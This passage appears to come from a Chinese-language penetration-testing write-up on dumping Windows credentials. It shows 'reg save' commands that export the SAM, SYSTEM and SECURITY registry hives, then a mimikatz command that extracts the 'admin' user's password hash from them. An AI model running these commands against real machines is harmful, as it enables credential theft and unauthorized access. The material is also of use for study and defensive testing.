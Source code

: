 但是如果对注册表操作的话，在这里对注册表操作：

```php

reg save HKLM\\SYSTEM system.hiv

reg save HKLM\\SAM sam.hiv

reg save hklm\\security security.hiv

在本地使用mimikatz执行：

mimikatz.exe "lsadump::sam /system:system.hiv /sam:sam.hiv" exit
```

![image.png](assets/1698900883-fe3e6abf5bb837f5a8e9bc72b02fe18d.png)

抓到了`admin`用户的`hash`，这就证实了对注册表操作是可以抓到原来用户的账密`hash`的。

### 5.2.2 注册表抓取

![image.png](assets/1698900883-19f997b57ed836103f63c230508ceceb.png)

